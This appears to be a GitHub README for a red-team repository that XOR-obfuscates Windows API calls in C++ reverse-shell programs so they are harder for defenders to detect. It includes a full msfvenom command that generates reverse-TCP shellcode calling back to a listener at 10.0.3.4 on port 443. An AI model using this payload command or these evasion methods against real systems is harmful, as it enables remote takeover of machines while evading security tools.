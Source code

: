 # Function Call Obfuscation

## Details
This was inspired by `https://jamespatricksec.medium.com/function-call-obfuscation-51f6bb171767` and `https://medium.com/@irfanbhat3/function-call-obfuscation-1bcd58e62b8e` where it is discussed and shown how to *obfuscate function calls* for **Windows binaries**. The `Original.cpp` contains the original function calls before any obfuscation.

The `SC_Rev.cpp` obfuscates `VirtualProtect`, `VirtualAlloc`, `CreateThread` `WaitForSingleObject`. Both use the **standard msfvenom** shellcode with `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.3.4 LPORT=443 -f c -v shellcode_payload` for testing purposes.

The `XOR_Rev.cpp` uses a **basic xor encryption** for the shellcode utilizing the `sc_xor.cpp` file.

The `Rev.cpp` is originally found in `https://github.com/tihanyin/Simple-Reverse-Shell/blob/main/Reverse_shell_2021_12.cpp` with some minor modifications and obfuscating the `CreateProcess` function call.

All of them use the `func_xor.cpp` script for **xor encryption** of the function name.

## Compiling
1. For both `func_xor.cpp` and `sc_xor.cpp` use `g++ func_xor.cpp -o func_xor` if compiling on **Linux**

2. For the others, you **Console App C++** in *Visutal Studio*. Use the `Release x64` option when building the binary.
